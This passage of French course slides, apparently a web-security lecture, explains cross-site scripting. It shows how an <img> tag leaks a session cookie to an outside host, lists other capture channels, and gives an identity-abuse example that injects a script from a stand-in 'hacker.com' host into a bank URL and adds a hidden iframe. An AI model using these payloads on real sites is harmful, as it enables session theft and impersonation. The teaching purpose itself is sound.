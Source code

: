 {::nomarkdown}
<input type="text" class="address cli" value="http://blog.servane.org/">
<iframe class="window cli" src="" height="200"></iframe>
{:/nomarkdown}

<script>
  sessionStorage[window.location.host + '.sessid'] = Math.random().toString().substr(2);
  $('#stored-xss-2 .address').on('keydown', function(e) {
    $('#stored-xss-2 .window').src = "../assets/permanent-xss.html";
  });
</script>
</section>
<section>

## Pourquoi `<img>` ?

La balise `<img>` est utilisé souvent pour envoyer des données de la
victime à l'attaquant :

~~~
<img src='http://httpbin.org/get?ck={"sessid":"a10340f0e"}' />
~~~
{:.compact}

- Presque tous les browsers savent la gérer,
- Connexion silencieuse (pas d'interaction utilisateur, pas de confirmation),
- Rarement filtrée,
- Idéale pour une transmission **de la victime à l'attaquant**.

Autres techniques pour capter les données :

- `XMLHttpRequest`,
- iframes,
- formulaires cachés,
- `<audio>`, `<video>`, ...
- ...

</section>
<section>

## Autre exemple : abus d'identité

- <span class="att">L'attaquant</span> injecte le script dans une page
  vulnérable et le donne à la <span class="cli">victime</span>

~~~
http://bank.servane.org/?<script src="http://hacker.com/evil.js"></script>
~~~
{:.srv}

- Le script ajoute un `<iframe>` caché dans la page du <span
  class="srv">serveur</span>

~~~
document.write('<iframe name="hf" style="display:none"></iframe>');
~~~
{:.att}
